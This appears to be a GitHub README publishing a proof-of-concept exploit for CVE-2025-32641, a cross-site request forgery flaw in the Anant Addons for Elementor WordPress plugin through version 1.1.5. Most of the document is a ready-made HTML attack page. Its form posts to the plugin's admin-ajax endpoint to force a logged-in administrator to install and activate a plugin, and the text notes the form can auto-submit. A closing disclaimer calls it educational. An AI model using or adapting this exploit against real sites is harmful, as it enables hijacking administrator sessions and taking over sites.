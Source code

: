 
# 🛡️ Anant Addons for Elementor <= 1.1.5 - CSRF to Arbitrary Plugin Installation

## 🧨 CVE-2025-32641
**Cross-Site Request Forgery (CSRF)** vulnerability in **anantaddons**' Anant Addons for Elementor  
This issue affects versions: **from unknown through 1.1.5**

- **Base Score**: 9.6 (CRITICAL)
- **CVSS Vector**: `CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:H/A:H`

---

## 🔍 Description

This vulnerability allows **unauthenticated attackers** to perform **arbitrary plugin installation** on behalf of a logged-in administrator without their knowledge.  
By crafting a malicious page or form, the attacker can silently force the admin to install and activate any plugin from the WordPress repository.

---

## 💥 Impact

- ✅ Arbitrary plugin installation  
- ✅ Plugin activation  
- ❌ No nonce or CSRF protection  
- ✅ Exploitable via a simple HTML page  
- ⚠️ Requires admin to be logged in and open the malicious page  

---

## 🧪 HTML Proof of Concept

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>Anant Addons for Elementor <= 1.1.5 CSRF Exploit</title>
  <style>
    body {
      background-color: #111;
      color: #0f0;
      font-family: monospace;
      padding: 40px;
    }
    h1 {
      color: #ff0055;
      font-size: 24px;
      border-bottom: 1px solid #555;
      padding-bottom: 10px;
    }
    .box {
      background-color: #222;
      border: 1px solid #444;
      padding: 20px;
      margin-top: 20px;
    }
    input[type="submit"] {
      background-color: #ff0055;
      color: #fff;
      border: none;
      padding: 10px 20px;
      font-weight: bold;
      cursor: pointer;
    }
    input[type="submit"]:hover {
      background-color: #cc0044;
    }
  </style>
</head>
<body>

  <h1>
    Anant Addons for Elementor <= 1.1.5<br>
    CSRF to Arbitrary Plugin Installation Vulnerability
  </h1>

  <div class="box">
    <p># By: <strong>Nxploited | Khaled Alenazi</strong></p>
    <p># Type: <strong>CSRF (No Nonce Validation)</strong></p>
    <p># Impact: <strong>Unauthenticated attacker can force admin to install and activate arbitrary WordPress plugins</strong></p>
  </div>

  <form action="http://target.com/wp-admin/admin-ajax.php?action=install_act_plugin" method="POST" class="box">
    <input type="hidden" name="plugs" value="hello-dolly">
    <p>🎯 Click the button below to trigger plugin installation (admin session must be active):</p>
    <input type="submit" value="Exploit Now">
  </form>

</body>
</html>
```

> 🎯 When a logged-in administrator clicks this form (or it auto-submits in a malicious page), the plugin will be silently installed and activated.

---

## ⚠️ Disclaimer

This repository and content are for **educational and security research purposes only**.  
The author is **not responsible** for any misuse or damage caused by improper use of this information.  
Always perform testing on systems **you own or have explicit permission to test**.

---

*by: Nxploited | Khaled ALenazi*
